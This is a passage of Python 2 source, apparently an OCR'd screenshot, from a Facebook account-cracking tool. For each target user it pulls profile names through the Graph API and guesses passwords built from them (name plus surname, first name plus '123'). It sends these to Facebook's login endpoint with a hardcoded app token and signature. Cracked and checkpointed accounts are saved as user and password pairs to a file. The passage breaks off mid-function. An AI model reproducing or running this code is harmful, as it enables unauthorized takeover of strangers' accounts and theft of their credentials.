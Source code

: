 	print "\033[0;39m ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass 

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = b['first_name'] + b['last_name']

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\033[0;92m[OK] \033[0;39m ' + user  + ' \033[0;39m | \033[0;39m ' + pass1 + '\033[0;39m | \033[0;39m' + b['name']

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[0;36;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass1 + '\033[0;39m | \033[0;39m' + b['name']

					cek = open("out/CP.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = b['first_name'] + '123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:
